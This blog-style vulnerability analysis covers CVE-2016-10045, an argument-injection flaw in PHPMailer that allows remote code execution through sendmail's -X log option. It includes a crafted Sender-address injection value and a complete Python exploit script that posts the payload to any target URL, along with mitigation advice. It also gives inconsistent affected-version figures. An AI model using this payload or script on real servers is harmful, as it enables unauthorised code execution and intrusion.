 ```yaml
---
layout: post
title: "Analysis of CVE-2016-10045: RCE in PHPMailer"
date: 2024-11-07
---
```


[CVE-2016-10045](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10045)\[1\] is a critical vulnerability in [PHPMailer](https://github.com/PHPMailer/PHPMailer)\[2\], a widely used library for sending emails in [PHP](https://www.php.net/)\[3\] web applications, affecting versions prior to 5.2.18. This vulnerability allows attackers to execute malicious code on a compromised web server by exploiting an input validation flaw in the PHPMailer code.

This publication is also available in: [Portuguese](https://blog.lesis.lat/blog/CVE-2016-10045/)

---

**Intro**

PHPMailer remains one of the most widely used email-sending libraries, with approximately 9 million users worldwide. Additionally, it is also used in numerous open-source projects such as WordPress, Drupal, and Joomla.

This vulnerability is particularly critical because, in most cases, the attacker does not need to be an authenticated user to inject malicious code and perform a [remote code execution (RCE)](https://www.cloudflare.com/en-gb/learning/security/what-is-remote-code-execution/)\[4\] on a web server.

To exploit this vulnerability, an attacker simply needs to identify a form field that uses PHPMailer for email sending and submit the payload.

---

**Description**

This vulnerability stems from an inadequate fix for [CVE-2016-10033](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10033)\[5\]. In PHPMailer version 5.2.17, the *$Sender* variable is sanitized using the *escapeshellarg()* function before being passed to the *mail()* function. However, an attacker can add an extra single quotation mark that isn’t properly escaped, breaking the intended flow of *escapeshellarg()*.

Example:

```php
$mail \-\> SetFrom("\\"Attacker\\\\' \-Param2 \-Param3\\"@test.com", 'Client Name');
```

The above will result in the following list of arguments being passed to the email-sending application:

```
Arg no. 0 \== \[/usr/sbin/sendmail\]  
Arg no. 1 \== \[-t\]  
Arg no. 2 \== \[-i\]  
Arg no. 3 \== \[-f\\"Attacker\\\\\\\]  
Arg no. 4 \== \[-Param2\]  
Arg no. 5 \== \[-Param3"@test.com'\]
```

The attacker can pass the **\-X** parameter to create a log containing arbitrary PHP code, making versions prior to **5.2.20** vulnerable to remote code execution (RCE).  

---

**Proof of Concept**

Python script to exploit the vulnerability:

```python
#!/usr/bin/env python3  
import requests  
import argparse  
import re  
def exploit(url, dir):  
    if not re.match(r'^https?://', url):  
        url \= f"https://{url}"  
    payload \= "\\"attacker\\\\' \-oQ/tmp/ \-X%s/phpcode.php  some\\"@email.com" % dir  
    code \= "\<?php phpinfo(); ?\>"  
      
    data \= {'action': 'send', 'name': 'LESIS', 'email': payload, 'msg': code}  
      
    response \= requests.post(url, data=data)  
      
    if response.status\_code \== 200:  
        print("Exploitation successful\!")  
    else:  
        print("Exploitation failed.")  
def main():  
    parser \= argparse.ArgumentParser(description='CVE-2016-10045 | PHPMailer')  
    parser.add\_argument('-t', '--target', required=True, help='Target URL')  
    parser.add\_argument('-d', '--dir', required=True, help='Remote recording directory')  
    args \= parser.parse\_args()  
      
    if args.target and args.dir:  
        exploit(args.target, args.dir)  
if \_\_name\_\_ \== '\_\_main\_\_':  
    main()
```

---

**Conclusion**

The vulnerability arises from a failure of improper input sanitization input in PHPMailer, allowing attackers to execute malicious code on compromised web servers. This poses a significant risk, as exploitation can be carried out without requiring authentication, allowing for remote code injection (RCE) in vulnerable applications.

The potential impact of a successful exploitation includes the execution of arbitrary code, which potentially leads to security breaches and unauthorized access to sensitive information.

The recommended mitigation is to update PHPMailer to version 5.2.20 or higher.  

---

**References**

* \[1\] [MITRE \- CVE-2016-10045](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10045)  
* \[2\] [GitHub \- PHPMailer: A full-featured email creation and transfer class for PHP](https://github.com/PHPMailer/PHPMailer)  
* \[3\] [PHP \- A popular general-purpose scripting language](https://www.php.net)  
* \[4\] [Cloudflare \- What is remote code execution?](https://www.cloudflare.com/en-gb/learning/security/what-is-remote-code-execution/)  
* \[5\] [MITRE \- CVE-2016-10033](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10033)
